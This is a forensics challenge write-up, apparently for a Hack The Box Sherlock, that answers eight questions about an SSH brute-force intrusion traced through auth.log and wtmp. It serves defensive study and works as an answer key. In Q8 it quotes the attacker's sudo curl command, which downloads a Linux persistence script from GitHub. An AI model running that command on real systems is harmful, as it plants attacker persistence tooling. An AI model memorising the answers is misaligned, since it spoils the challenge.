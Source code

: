 ##### Sherlock Scenario

In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

___

### Q1: Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

#### A: 65.2.161.68

Opening the auth.log file we see a lot of entries about Invalid user from the same ip, i would assume that this ip is the attacker's.

![](../../Img/Pasted%20image%2020250425142803.png)

___

### Q2: The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?

#### A: root

Looking further down we can find the username (searching for success didn't work, but accepted works)

![](../../Img/Pasted%20image%2020250425143038.png)

___

### Q3: Identify the timestamp when the attacker logged in manually to the server to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.

#### A: 2024-03-06 06:32:45

In the wtmp file (after utmpdump bc u cant open the file just like that). We search for the root acc and the ip of the attacker and find the answer

![](../../Img/Pasted%20image%2020250425144054.png)

___

### Q4: SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

#### A: 37

This one is in the auth.log file, following the path of this questions, we can assume that it is asking for the manual login. (as oppose to the automated one, that being the first successful login of root with the attacker ip)

![](../../Img/Pasted%20image%2020250425144551.png)

Q5: The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

A: cyberjunkie

In the same file, a little bit below we can see that a new user is created, and the modifications done to this user too.

![](../../Img/Pasted%20image%2020250425144753.png)

Q6: What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

A: T1136.001

In the matrix (https://mitre-attack.github.io/attack-navigator/), we search first the persistence column, then for acc creation, and for the sub technique we select the appropiate (this been an acc created on the system itself it's a local acc)

![](../../Img/Pasted%20image%2020250425145401.png)

Q7: What time did the attacker's first SSH session end according to auth.log?

A: 2024-03-06 06:37:24

In the file just look for disconnect for session 37

![](../../Img/Pasted%20image%2020250425145457.png)

Q8: The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

A: /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

Just below the last question we see the answer.

![](../../Img/Pasted%20image%2020250425145615.png)

Tags: [Log Analysis](../../Index/Log%20Analysis.md) 